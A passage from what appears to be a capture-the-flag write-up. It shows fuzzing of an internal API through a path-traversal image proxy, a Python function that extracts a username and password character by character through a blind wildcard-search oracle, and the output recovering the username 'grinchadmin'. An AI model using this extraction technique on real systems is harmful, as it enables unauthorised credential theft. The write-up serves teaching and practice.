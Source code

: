 ```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 28 Dec 2020 20:49:49 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 29

Invalid content type detected
```

When you query a normal image, you get a `Content-Type` of `image/jpeg`. The header here shows that it is returning a text result and it is confused because it is an images api. This error is fine though, it shows us that even though we aren't able to see the output of this api, we know that it exists.

The last line of the program fuzzes to find the parameters of the user endpoint. Most of the wordlist returns a `400` status, but `username` and `password` both return a `204 No Content`. With some fiddling I could see that the username and password fields were search fields. Trying `username=%` would return the "Invalid content type detected" error, while trying `username=1` would return `204 No Content`. This tells us that we have a true or false response to know if a certain user is existing. Using this, we can exfiltrate the login in the same way we did for day 9. To do this, I added an extra function to the existing script:

```python
CHARS = "qwertyuiopasdfghjklzxcvbnm1234567890"

def exfiltrate(field):
    accumulator = ''
    while True:
        for char in CHARS:
            payload = PAYLOAD.replace('FUZZ', f'user?{field}={accumulator}{char}%')
            if process(payload, avoid_code='204'):
                accumulator += char 

sys.argv[1] == 'username' and exfiltrate('username')
sys.argv[1] == 'password' and exfiltrate('password')
```

Running: 
```sh
$ ./api_fuzz.py username
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=g%","auth":"e8b7a05ab04f3c1165c79d08d331169a"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=gr%","auth":"9628e7ff516491d7fef561b270e6bf96"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=gri%","auth":"b72688442a598cee8ddb8b3c012b0ec4"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grin%","auth":"52bce9f7f3f8d95abed4a447545656d8"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinc%","auth":"aecf8d3c5edd3986815fb8f8bc31982f"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinch%","auth":"6f86b86d2013ab5ab58abd4d77b44506"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grincha%","auth":"fb005d3fc853a5b48927e526be4c7daf"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchad%","auth":"2eac9d3c5e350d26c8d44cd7f4135fbd"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadm%","auth":"6d4771f64f64ed71f8782de9cad19a68"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadmi%","auth":"07c90be0a9c886d667407f0bceb85dc1"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadmin%","auth":"492e8c29c6b95c00bc37be3884596c86"}'

$ ./api_fuzz.py password
```
